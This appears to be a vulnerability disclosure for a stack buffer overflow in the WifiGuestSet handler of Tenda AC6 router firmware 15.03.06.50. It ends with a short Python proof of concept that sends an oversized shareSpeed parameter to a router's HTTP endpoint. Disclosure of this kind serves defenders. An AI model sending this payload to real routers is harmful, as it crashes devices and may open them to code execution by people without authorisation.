






# Bug Report: Buffer Overflow in Tenda AC6 15.03.06.50 Router
A critical stack-based buffer overflow vulnerability has been discovered in the Tenda AC6 router firmware version 15.03.06.50. The vulnerability exists in the `/goform/WifiGuestSet` HTTP request handler and can be exploited by remote attackers to achieve code execution or cause denial of service through malformed HTTP requests.

## Vulnerability Details

### Product Information
- **Product**: Tenda AC6 Wireless Router
- **Affected Version**: 15.03.06.50
- **Download Source**: https://www.tendacn.com/material/show/103316
- **Vulnerability Type**: Stack-based Buffer Overflow

## Description:
A buffer overflow exists in the HTTP request handler for the `/goform/WifiGuestSet` endpoint. The vulnerability is triggered when processing requests containing the following parameters with excessive data lengths: `shareSpeed`.







## poc



## reproduce

```python
from pwn import *
import requests

def send_payload(url, payload):
    print("sending...")
    response = requests.get(url, params={'shareSpeed': payload})
    print(f"Response status code: {response.status_code}\nResponse body: {response.text}")

payload = 0xf0 * b'A'

send_payload("http://10.10.10.1/goform/WifiGuestSet", payload)
```
